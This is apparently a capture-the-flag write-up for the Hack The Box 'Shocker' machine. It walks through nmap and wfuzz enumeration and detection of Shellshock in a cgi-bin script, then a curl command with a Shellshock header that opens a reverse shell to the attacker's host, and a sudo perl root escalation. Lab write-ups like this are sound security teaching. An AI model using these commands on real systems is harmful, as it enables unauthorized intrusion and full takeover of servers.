 ```yaml
---
title: Shocker Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


## Enumeration

The nmap reports that the machine has a web page and SSH service open.
```ruby
# Nmap 7.93 scan initiated Sun Jan 29 13:11:27 2023 as: nmap -p80,2222 -sCV -oN targeted 10.129.228.21
Nmap scan report for 10.129.228.21
Host is up (0.061s latency).

PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 2048 c4f8ade8f80477decf150d630a187e49 (RSA)
| | 256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_ 256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 29 13:11:36 2023 -- 1 IP address (1 host up) scanned in 8.57 seconds
```

Now let's fuzz it. Using dirbuster, we didn't find any subdomains. Let's try looking for files on it.

```shell
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/wfuzz/general/medium.txt http://10.129.228.21/FUZZ/
```

We found cgi-bin and cgi-bin/ but they are forbiden. Anyway, let's fuzz them anyway BUT THIS TIME LOOKING FOR FILES, since CGI-BIN usually stores files.

```shell
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -z list,sh-pl-cgi http://10.129.228.21/cgi-bin/FUZZ.FUZ2Z         
```

We see that we found a user-sh file so let's investigate it. It has no information, but when you find this kind of thing (sh-files inside the cgi-bin) you can try a shellshock.

So let's see if our page is vulnerable to shell-shock:
```shell
sudo nmap --script http-shell-shellshock --script-args uri=/cgi-bin/user.sh -p80 10.129.228.21

# --script http-shellshock -> To use the shell-shock script
# --script-args -> Pass arguments to the script
# uri =/ -> Specify the path where user.sh resides
```

And it reports this:
```ruby
PORT STATE SERVICE
80/tcp open http
| http-shellshock: 
| VULNERABLE:
| HTTP Shellshock vulnerability
| State: VULNERABLE (Exploitable)
| IDs: CVE:CVE-2014-6271
| This web application might be affected by the vulnerability known
| as Shellshock. It seems the server is executing commands injected | via malicious HTTP headers.
| via malicious HTTP headers.
|             
| Disclosure date: 2014-09-24
| References:
| http://www.openwall.com/lists/oss-security/2014/09/24/10
| https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
| http://seclists.org/oss-sec/2014/q3/685
|_ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
```

## User exploit

Now that we know it is vulnerable, we can apply a shell-shock attack.

By applying this command, we send a reverse shell to ourselves

```shell
curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.38/443 0>&1" http://10.129.228.21/cgi-bin/user.sh
```

## Root Exploit

Doing sudo -l, we see that we can run perl as root, so let's look for a way to do the priv. esc. in gtfobins

We find the following command:
```shell
perl -e 'exec "/bin/sh";'
```

so we run it as sudo and we are root.

